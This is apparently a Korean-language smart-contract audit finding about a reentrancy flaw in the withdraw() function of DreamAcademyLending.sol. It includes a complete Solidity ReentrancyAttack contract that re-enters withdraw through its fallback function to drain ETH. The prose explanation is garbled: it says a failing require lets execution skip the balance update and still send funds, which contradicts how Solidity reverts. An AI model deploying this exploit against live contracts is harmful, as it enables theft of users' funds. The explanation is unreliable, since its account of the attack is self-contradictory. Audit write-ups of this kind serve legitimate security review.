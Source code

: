# 에치금 출금 로직 결함 및 재진입 기술을 활용한 자금 탈취2<br/>

File: DreamAcademyLending.sol <br/>
Function: withdraw(address _tokenAddress, uint256 _amount)<br/>
Line Number: 117-131 <br/>

https://github.com/Gamj4tang/Audit/blob/f246a69b10002401149a0ffeb71e7f50d24aa0fa/src/DreamAcademyLending.sol#L117-L131
<br/>

## Description
이 함수는 withdraw를 요청하는 사용자로부터 _tokenAddress와 _amount를 받아와 vaults 매핑
에서 해당 사용자의 정보를 가져와, 출금 가능한 금액을 계산합니다. 그리고 _amount를 사용자가 보유한 ETH 자산에서 차감한 후, 사용자의 주소로 _amount만큼 ETH를 송금합니다.
그러나 이 함수에서는 재진입(reentrancy) 기술을 통해 출금 로직 결함이 발생할 수 있습니다. 재진입 기술이란 함수 호출 중에 다른 함수를 재귀적으로 호출할 수 있는 기술을 의미합니다. 이 함수에서 재진입 기술을 활용하면, attacker가 다음과 같은 방식으로 공격할 수 있습니다.
attacker는 출금 가능한 금액보다 큰 _amount를 요청합니다.
이때 tempVault.collateralETH - availableWithdraw 조건문이 false를 반환하므로, require 구문이 실패합니다.
그러면 attacker는 tempVault.collateralETH -= _amount; 구문을 건너뛰고 payable(msg.sender).call{value: _amount}(""); 구문을 실행합니다.
만약 attacker가 호출한 함수가 이 함수를 재귀적으로 호출하면, tempVault.collateralETH -= _amount; 구문이 다시 실행되어 attacker가 보유한 모든 자산을 탈취할 수 있습니다.
이러한 결함은 attacker가 탈취한 금액이 모두 출금 가능한 금액보다 작을 때까지 반복될 수 있습니다. 이러한 결함으로 인해 attacker는 vaults 매핑에서 자신의 정보를 업데이트하여 출금 가능한 금액을 증가시키거나, 출금 가능한 금액을 초과하는 금액을 출금할 수 있으므로 심각한 보안 위협이 될 수 있습니다.

```solidity
contract ReentrancyAttack {
    DreamAcademyLending public target;
    address payable public owner;

    constructor(DreamAcademyLending _target) {
        target = _target;
        owner = payable(msg.sender);
    }

    // 공격을 시작하는 함수입니다.
    function attack(address _tokenAddress, uint256 _amount) external payable{
        require(msg.sender == owner, "Not authorized");
        target.deposit{value: _amount}(_tokenAddress, _amount);
        target.withdraw(_tokenAddress, _amount);
    }

    // 컨트랙트가 받은 Ether를 소유자에게 전송하는 함수입니다.
    function withdraw() external {
        require(msg.sender == owner, "Not authorized");
        owner.transfer(address(this).balance);
    }

    // 이 컨트랙트는 Fallback 함수를 이용하여 재진입 공격을 수행합니다.
    fallback() external payable {
        if (address(target).balance >= msg.value) {
            target.withdraw(address(0x0), msg.value);
        }
    }

    // 컨트랙트가 받은 Ether의 잔액을 확인하는 함수입니다.
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```